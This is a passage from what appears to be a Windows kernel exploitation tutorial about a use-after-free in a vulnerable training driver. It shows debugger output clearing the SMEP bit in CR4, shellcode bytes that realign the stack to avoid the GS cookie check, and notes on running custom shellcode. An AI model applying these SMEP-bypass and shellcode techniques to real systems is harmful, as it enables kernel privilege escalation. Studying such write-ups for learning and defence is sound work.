ffff8c05`a9a9a3f3 4825ffffefff and rax,0FFFFFFFFFFEFFFFFh
6: kd> .formats cr4
Evaluate expression:
Hex: 00000000`001506f8
Decimal: 1378040
Decimal (unsigned) : 1378040
Octal: 0000000000000005203370
Binary: 00000000 00000000 00000000 00000000 00000000 00010101 00000110 11111000
Chars: ........
Time: Fri Jan 16 23:47:20 1970
Float: low 1.93105e-039 high 0
Double: 6.80842e-318
6: kd> t
ffff8c05`a9a9a3f9 0f22e0 mov cr4,rax
6: kd> .formats cr4
Evaluate expression:
Hex: 00000000`000506f8
Decimal: 329464
Decimal (unsigned) : 329464
Octal: 0000000000000001203370
Binary: 00000000 00000000 00000000 00000000 00000000 00000101 00000110 11111000
Chars: ........
Time: Sun Jan 4 20:31:04 1970
Float: low 4.61677e-040 high 0
Double: 1.62777e-318
But, when you try to execute that shellcode we will see a BSOD with the stop code: KERNEL_SECURITY_CHECK_FAILURE (139).
Stack Canary / GS Cookie
Since we are 2 call instructions deep, the return address created from the initial call rcx of g_UseAfterFreeObjectNonPagedPool->Callback() should be at rsp+8, so we’ll just have to add these instructions to our shellcode.
0: 48 83 c4 08 add rsp,0x8
4: c3 retThus, here we can align the stack to bypass the GS Cookie.
Conclusion
Once you have your custom shell script, you can run it in two different ways:
- Directly from the FakeObj->Buffer (no need to disable SMEP)
- Making a jump into your userland function before disabling SMEP
I’m sorry I haven’t posted a token hijacking exploit yet; for now, you’ll have to make do with the SMEP bypass/disable method. I’ll update this post with the final exploit in the future.